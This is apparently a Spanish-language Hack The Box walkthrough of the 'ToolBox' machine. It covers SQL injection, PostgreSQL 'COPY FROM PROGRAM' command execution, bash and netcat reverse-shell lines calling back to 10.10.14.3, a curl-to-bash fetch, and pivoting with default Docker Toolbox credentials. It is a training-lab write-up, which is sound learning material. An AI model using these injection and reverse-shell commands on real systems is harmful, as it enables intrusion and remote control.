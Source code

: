 ```yaml
---
title : MQ|TOOLBOX|HTB|POSTGRESSql|PIVOTING
published : True
---
```


<div class="contenedor imgc">
    <img class="imgc" src="imgs/ToolBox/ToolBox0.png" style="border-radius: 150px; width: 169px" alt="ToolBox logo">
    <div> 
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Dificultad: Fácil </p>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Url: <a href="https://app.hackthebox.com/machines/339" style="color: lightblue;">Tool Box</a></p>
    </div>
</div>

<h2><font color="white"><center> # Tool Box</center></font></h2>

* Empezamos tirando una traza ICMP, y vemos que nos enfrentamos  a una maquina Linux.

<img src="imgs/ToolBox/ToolBox1.png">

* Posteriormente empezamos con la enumeración de servicio y version que corren bajo los puertos de esta maquina, como cosas relevantes: 
<center>[Ftp]21: docker-toolbox.exe</center>

<img src="imgs/ToolBox/ToolBox2.png">

* Vemos de que se trata el recurso compartido por ftp llamado docker-toolbox.exe empleando una session como anonymous.

<img src="imgs/ToolBox/ToolBox6.png">

* Empezamos conectarnos con openssl para ver la firma de certificado ssl, y nos encontramos con subdominios bajo esta maquina.
<center>admin.megalogistic.com</center>
<center>megalogistic.com</center>

<img src="imgs/ToolBox/ToolBox3.png">


* Procedemos a agregarlos en el /etc/hosts paraopenssl que apunte a la dirección IP de la maquina.

<img src="imgs/ToolBox/ToolBox4.png">

* Vemos mas información que nos puede listar crackmapexec.
<center>Maquina:   Windows</center>
<center>Arquitectura: 64 bts</center>
<center>Nombre: TOOLBOX </center>
<img src="imgs/ToolBox/ToolBox5.png">

* Se puede observer que le panel de login de admin.megalogistic.com es vulnerables a un ataque de inyección Sql

<img src="imgs/ToolBox/ToolBox7.png">

* Empezamos a usar Burpsuite para ver el trafico de salida y respuesta por parte del servidor.
<center>Win + r : Enviar al Repeter</center>

<img src="imgs/ToolBox/ToolBox8.png">


* Investigamos acerca de como inyectar código arbitrario para ello.

* Eliminación de tabla en el caso de que sea existente.

```sql
DROP TABLE IF EXIST cmd_exec;
```

* Creación de la tabla para la inyección de comando arbitrarios.

```sql
 CREATE TABLE cmd_exec(cmd_output text);
```

* Inyección de comandos

```sql
 COPY cmd_exec from PROGRAM 'whoami';
```

* Empezamos con la creación de la tabla.

<img src="imgs/ToolBox/ToolBox10.png">

* Empezamos con la ejecución del código para ello me comparto un recurso compartido por smb que va a tener el binario netcat para poder crearme una reverse Shell suponiendo que pues la maquina es windows.
<center>Creamos recurso un recurso compartido.</center>
<img src="imgs/ToolBox/ToolBox11.png">


* Procedemos a ponernos en escucha por el puerto 4445 y lanzamos la petición para ganar acceso pero vemos que no ganamos acceso al sistema.
<center>\\10.10.14.3\smbFolder\nc.exe+-e+10.10.14.3+4445</center>
<img src="imgs/ToolBox2/ToolBox20.png">

* No recibimos ninguna traza eso debe ser porque esta corriendo un contenedor de maquina Linux, procedemos a hacer una reverse shell en bash, y en vez de impacket-smbserver usamos python3 -m http.server para correrlo en el puerto 88.
<center>/bin/bash -c "bash -i >& /dev/tcp/10.10.14.3/4445 0>&1"</center>

* Nos creamos el archivo reverse y creamos un servicio con python para poder compartirlo.

<img src="imgs/ToolBox2/ToolBox21.png">

* Posteriormente lanzamos un curl a nuestra dirección IP/reverse\|bash y le damos a send, para poder ganar acceso al sistema.

<img src="imgs/ToolBox2/ToolBox22.png">

* Nos creamos una full tty interactiva para poder trabajar mas cómodo.

<img src="imgs/ToolBox2/ToolBox23.png">

* Exportamos las variables de entorno.

<img src="imgs/ToolBox2/ToolBox24.png">

* Ganamos acceso a un contenedor en esta caso el la dirección IP 172.17.0.2

<img src="imgs/ToolBox2/ToolBox25.png">

* Podemos convertirnos en root y poder ver la flag user.txt

<img src="imgs/ToolBox2/ToolBox212.png'>


* Como somos la maquina 2 es decir de la sobre 172.17.0.2 quiero pensar que también hay una maquina que corre bajo la dirección ip 172.17.0.2 que corre el servicio de docker-toolbox, verificamos que tiene el servicio ssh abierto.

<img src="imgs/ToolBox2/ToolBox26.png">

* Buscamos credenciales por defecto de este servicio.
<center>User: docker</center>
<center>Password: tcuser</center>

<img src="imgs/ToolBox2/ToolBox27.png">

* Nos conectamos por ssh.
<center>ssh docker@172.17.0.1</center>
<img src="imgs/ToolBox2/ToolBox28.png">

* Empezamos a enumerar el sistema, y en la ruta raíz del sistema encontramos cosas interesantes.

<center>/c/Users/Administrator/.ssh</center>
<img src="imgs/ToolBox2/ToolBox29.png">

* Procedemos a conectarnos por ssh a la maquina con el usuario: Administrator.

<img src="imgs/ToolBox2/ToolBox210.png">

* En este punto ya podríamos ver la flag de root.

<img src="imgs/ToolBox2/ToolBox211.png">

